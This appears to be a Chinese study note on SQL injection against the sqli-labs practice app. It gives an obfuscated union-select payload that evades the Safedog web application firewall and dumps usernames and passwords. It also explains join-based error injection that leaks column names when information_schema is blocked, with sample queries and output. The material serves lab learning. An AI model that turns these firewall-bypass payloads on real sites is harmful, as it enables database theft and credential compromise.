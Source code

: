 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608180612648.png" alt="image-20230608180612648" style="zoom:50%;" />

#### 拖库

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=-1' union/*/!*!**/select%201,2,group_concat(username,':',password)from/*!--+/*%0ausers*/--+
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608180726467.png" alt="image-20230608180726467" style="zoom:50%;" />

### 安全狗4.0.266-无列名注入

安全狗对于输入有非常严格的过滤，一旦输入的字符串中包含了`information_schema`就会被拦截，所以这里学习一个`join 无列名报错注入`，==适用于无法使用`information_schema`但是知道数据表名的情况==

#### 注入原理

通过使用一张表做两次内联查询的方式来使得列名冲突的方式来使得数据库报错，并爆出冲突的列名

```sql
mysql> select * from (select * from users as a join users as b)c;
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select * from (select * from users as a join users as b using(id))c;
ERROR 1060 (42S21): Duplicate column name 'username'
mysql> select * from (select * from users as a join users as b using(id, username))c;
ERROR 1060 (42S21): Duplicate column name 'password'
mysql> select * from (select * from users as a join users as b using(id, username, password))c;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
```